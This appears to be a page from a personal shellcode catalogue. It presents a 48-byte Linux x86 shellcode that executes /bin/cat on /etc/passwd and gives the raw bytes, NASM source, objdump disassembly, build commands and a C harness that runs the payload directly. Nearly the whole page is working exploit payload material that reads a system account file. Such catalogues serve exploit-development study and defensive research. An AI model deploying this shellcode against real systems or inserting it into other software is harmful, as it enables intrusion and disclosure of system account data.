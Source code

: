 ```yaml
---
title:  Linux/86 cat /etc/passwd -> Stack,XOR
date: 2022-06-03 05:49:33 +0800
categories: [Shellcodes, Linux]
tags: []  
---
```


# Info

Description: `Shellcode to retrive /etc/passwd file using /bin/cat`

Platform: `Linux`

Arch: `x86`

Size: `48 bytes`

Technique: `Stack`, `XOR`

Shellcode : `\x31\xc0\x50\x8d\x14\x24\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x8d\x1c\x24\x50\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x8d\x34\x24\x50\x56\x53\x8d\x0c\x24\xb0\x0b\xcd\x80`

# Execution

![shellcode](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/shellcodes/l86catetcpasswdestackxor.png)

# Assembly-nasm

`nasm -f elf32 -o shellcode.o shellcode.asm`

`ld -o shellcode shellcode.o`

```nasm

global _start

section .text

_start:
    xor eax, eax

    push eax
    lea edx, [esp]

    ;/bin/cat
    
    push 0x7461632f
    push 0x6e69622f
    lea ebx, [esp]

    ;//etc/passwd0x00000000
    
    push eax
    push 0x64777373
    push 0x61702f63
    push 0x74652f2f
    lea esi, [esp]


    push eax
    push esi
    push ebx
    lea ecx, [esp]

    mov al, 0xb
    int 0x80

```
# objdump

`objdump -d ./shellcode -M intel`

```bash

./shellcode:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:       31 c0                   xor    eax,eax
 8048062:       50                      push   eax
 8048063:       8d 14 24                lea    edx,[esp]
 8048066:       68 2f 63 61 74          push   0x7461632f
 804806b:       68 2f 62 69 6e          push   0x6e69622f
 8048070:       8d 1c 24                lea    ebx,[esp]
 8048073:       50                      push   eax
 8048074:       68 73 73 77 64          push   0x64777373
 8048079:       68 63 2f 70 61          push   0x61702f63
 804807e:       68 2f 2f 65 74          push   0x74652f2f
 8048083:       8d 34 24                lea    esi,[esp]
 8048086:       50                      push   eax
 8048087:       56                      push   esi
 8048088:       53                      push   ebx
 8048089:       8d 0c 24                lea    ecx,[esp]
 804808c:       b0 0b                   mov    al,0xb
 804808e:       cd 80                   int    0x80


```

# C

`gcc -o shellcode shellcode.c`

```c

#include <stdio.h>                                                                                                                                                    
#include <string.h>                                                                                                                                                   
                                                                                                                                                                      
char *shellcode = "\x31\xc0\x50\x8d\x14\x24\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x8d\x1c\x24\x50\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x8d\x34\x24\x50\x56\x53\x8d\x0c\x24\xb0\x0b\xcd\x80";

int main(void)
{
        fprintf(stdout,"Length: %d\n",strlen(shellcode));
        (*(void(*)()) shellcode)();
        return 0;
}

```

